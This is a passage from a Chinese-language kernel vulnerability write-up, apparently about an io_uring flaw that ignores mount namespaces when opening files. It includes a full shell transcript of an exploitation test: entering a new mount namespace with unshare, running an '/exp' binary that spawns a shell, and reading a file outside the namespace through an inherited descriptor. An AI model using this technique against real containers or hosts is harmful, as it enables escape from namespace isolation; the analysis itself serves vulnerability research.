 接着调用`do_filp_open` 来打开文件返回文件描述符。貌似没有什么问题呀，正常的调用openat， 正常的打开文件或文件夹。

这是应用场景的不同，这里出现漏洞的原因是它没有对不同的namespace做区分，namespace是linux对系统资源的一种隔离机制，我们熟悉的docker就有用到namespace的东西，namespace相关的东西可以参考[这篇文章](https://segmentfault.com/a/1190000009732550),写的真棒，这里不做过多的描述。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%B5%8B%E8%AF%95"></a>利用测试

完整的利用流程如下

```
/home/pwn # echo aaaa &gt; /tmp/real
/home/pwn # echo $$
206
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:55 mnt -&gt; mnt:[4026531840]
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)-+-grep(212)
/home/pwn # unshare -m --uts /bin/sh
/bin/sh: can't access tty; job control turned off
/home/pwn # echo $$
213
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)---sh(213)-+-grep(215)
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:56 mnt -&gt; mnt:[4026532131]
/home/pwn # mount -t tmpfs none /tmp
/home/pwn # ls /tmp
/home/pwn # /exp
submitted 1, getevents done
cq_tail = 1
result: 5
launching shell
sh: can't access tty; job control turned off
/home/pwn # echo $$
223
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)---sh(213)---exp(220)---sh(223)-+-grep(225)
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:57 mnt -&gt; mnt:[4026532131]
/home/pwn # ls -al /proc/$$/fd/
total 0
dr-x------    2 root     0                0 Apr 15 02:58 .
dr-xr-xr-x    9 root     0                0 Apr 15 02:57 ..
lrwx------    1 root     0               64 Apr 15 02:58 0 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 1 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 2 -&gt; /dev/console
lr-x------    1 root     0               64 Apr 15 02:58 4 -&gt; /
l---------    1 root     0               64 Apr 15 02:58 5 -&gt; /
/home/pwn # cat /proc/$$/fd/5/tmp/real
aaaa
/home/pwn # C#
```
